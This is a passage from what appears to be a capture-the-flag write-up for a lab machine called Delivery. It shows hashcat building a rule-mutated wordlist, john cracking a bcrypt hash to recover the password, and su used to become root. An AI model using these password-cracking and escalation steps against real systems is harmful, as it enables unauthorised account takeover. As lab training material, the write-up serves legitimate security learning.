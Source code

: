 ```bash
[root@kali Delivery ]$ hashcat pass_reuse.txt -r /usr/share/hashcat/rules/best64.rule --stdout > passwords.txt 
```
Now that we have a dictionary we can try to crack the hash using `john`
```
[root@kali Delivery ]$ john --wordlist=passwords.txt hash.txt                   
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
PleaseSubscribe!21 (?)     
1g 0:00:00:00 DONE (2022-05-30 23:10) 1.960g/s 70.58p/s 70.58c/s 70.58C/s PleaseSubscribe!12..PleaseSubscrio
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```
Now, hoping the best of luck let's try to su as root:  
```bash
maildeliverer@Delivery:/dev/shm/.work/sucrack/src$ su -    
Password:                                                  
root@Delivery:~#   
```
  